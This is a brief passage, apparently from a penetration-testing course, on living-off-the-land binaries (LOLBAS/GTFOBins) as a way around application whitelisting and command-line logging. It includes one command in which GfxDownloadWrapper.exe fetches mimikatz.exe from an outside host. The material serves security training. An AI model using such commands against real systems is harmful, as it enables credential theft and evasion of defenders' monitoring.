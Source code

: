 ### LOLBAS / GTFOBins

Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence. In this case, an option may be to use a "LOLBIN" (living off the land binary), alternatively also known as "misplaced trust binaries.”

`PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"`

